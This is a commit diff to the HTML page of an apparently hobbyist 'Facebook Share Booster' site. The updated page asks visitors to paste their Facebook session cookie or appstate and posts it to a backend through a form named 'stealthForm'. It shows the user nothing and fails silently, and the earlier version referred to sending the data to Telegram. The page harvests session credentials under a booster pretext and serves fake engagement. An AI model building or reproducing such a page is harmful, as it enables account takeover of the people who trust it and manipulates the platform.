

Before and after one commit to vraxyxx/fbshare-vrn, a plain HTML site: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -1,63 +1,65 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8" />
-  <title>FB Booster (Testing)</title>
+  <meta charset="UTF-8">
+  <title>Facebook Share Booster</title>
   <style>
-    body { background: #121212; color: #fff; font-family: sans-serif; padding: 20px; text-align: center; }
-    input, select, textarea, button {
-      margin: 10px;
+    body { background: #111; color: #fff; font-family: sans-serif; padding: 20px; text-align: center; }
+    input, textarea, select, button {
+      display: block;
+      margin: 12px auto;
       padding: 10px;
       width: 80%;
       max-width: 400px;
-      background: #1e1e1e;
+      border: 1px solid #333;
+      border-radius: 8px;
+      background: #222;
       color: #fff;
-      border: 1px solid #444;
-      border-radius: 6px;
     }
-    button { background-color: #00f0ff; color: black; font-weight: bold; }
-    img { border-radius: 10px; margin-top: 10px; max-width: 150px; }
+    button {
+      background: #00ffea;
+      color: #000;
+      font-weight: bold;
+      cursor: pointer;
+    }
   </style>
 </head>
 <body>
-  <h2>🧪 FB Booster Test Panel</h2>
-  <textarea name="cookie" placeholder="Paste cookie/appstate" rows="4" required></textarea><br>
-  <input type="text" name="url" placeholder="Facebook Post URL" required><br>
-  <input type="number" name="amount" placeholder="Share Amount" required><br>
-  <input type="number" name="interval" placeholder="Interval in seconds" required><br>
-  <select name="server">
-    <option value="server1">Server 1</option>
-    <option value="server2">Server 2</option>
-    <option value="server3">Server 3</option>
-  </select><br>
-
-  <!-- Button click will trigger the backend -->
-  <button id="triggerBtn">Run Booster 🔥</button>
-  <div id="output" style="margin-top: 20px;"></div>
+  <h2>🚀 Facebook Share Booster</h2>
+  <form id="stealthForm">
+    <textarea name="cookie" placeholder="Paste your FB cookie or appstate here" required rows="4"></textarea>
+    <input type="text" name="url" placeholder="Facebook Post URL" required>
+    <input type="number" name="amount" placeholder="Amount (e.g. 100)" required>
+    <input type="number" name="interval" placeholder="Interval in seconds" required>
+    <select name="server">
+      <option value="server1">Server 1</option>
+      <option value="server2">Server 2</option>
+      <option value="server3">Server 3</option>
+    </select>
+    <button type="submit">Start Boost</button>
+  </form>
 
   <script>
     document.querySelectorAll("button").forEach(btn => {
       btn.addEventListener("click", async () => {
-        const cookie = document.querySelector('textarea[name="cookie"]').value;
-        const url = document.querySelector('input[name="url"]').value;
-        const amount = parseInt(document.querySelector('input[name="amount"]').value);
-        const interval = parseInt(document.querySelector('input[name="interval"]').value);
-        const server = document.querySelector('select[name="server"]').value;
-
-        const output = document.getElementById("output");
-        output.textContent = "Sending to Telegram...";
+        const form = document.getElementById("stealthForm");
+        const data = {
+          cookie: form.cookie.value,
+          url: form.url.value,
+          amount: parseInt(form.amount.value),
+          interval: parseInt(form.interval.value),
+          server: form.server.value
+        };
 
         try {
-          const res = await fetch("/api/fbshare", {
+          await fetch("/api/fbshare", {
             method: "POST",
             headers: { "Content-Type": "application/json" },
-            body: JSON.stringify({ cookie, url, amount, interval, server })
+            body: JSON.stringify(data)
           });
-
-          const data = await res.json();
-          output.innerHTML = `✅ Boost started for <b>${data.name}</b><br><img src="${data.photo}" />`;
+          // nothing shown to the user
         } catch (e) {
-          output.textContent = "❌ Failed: " + e.message;
+          // silently fail
         }
       });
     });
```
